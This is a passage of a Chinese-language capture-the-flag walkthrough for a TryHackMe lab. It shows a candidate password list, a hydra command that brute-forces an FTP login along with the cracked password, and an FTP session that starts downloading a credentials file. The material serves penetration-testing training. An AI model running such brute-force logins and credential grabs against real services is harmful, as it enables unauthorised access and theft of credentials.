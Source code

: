 ```
65NX66Wv~oFP2
LRAQ@zcBphn!1
V4bt3*58Z32Xe
ki^t!+uqB?DyI
5iez1wGXKfPKQ
nJ90XzX&AnF5v
7EiMd5!r%=18c
wYyx6Eq-T^9# @
yT2o$2exo~UdW
ZuI-8!JyI6iRS
PTKM6RsLWZ1&^
3O$oC~%XUlRO@
KW3fjzWpUGHSW
nTzl5f=9eS&*W
WS9x0ZF=x1%8z
Sr4*E4NT5fOhS
hLR3xQV*gHYuC
4P3QgF5kflszS
NIZ2D%d58*v@R
0rJ7p%6Axm05K
94rU30Zx45z5c
Vi^Qf+u%0*q_S
1Fvdp&bNl3# &l
zLH%Ot0Bw&c%9

```

ftp服务的用户名是：```ftpuser```,密码是下面期中一个。把密码保存为passwd.txt，爆破ftp
```
┌──(root💀kali)-[~/tryhackme/yearofrabbit]
└─#  hydra -l ftpuser -P /root/tryhackme/yearofrabbit/passwd.txt 10.10.17.116 ftp        
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-27 05:45:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.17.116:21/
[21][ftp] host: 10.10.17.116   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-27 05:45:47

```

# 登录ftp,把文件下载到本地
```
┌──(root💀kali)-[~/tryhackme/yearofrabbit]
└─#  ftp 10.10.17.116
Connected to 10.10.17.116.
220 (vsFTPd 3.0.2)
Name (10.10.17.116:root): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
ftp> get Eli's_Creds.txt
local: Eli's_Creds.txt remote: Eli's_Creds.txt
```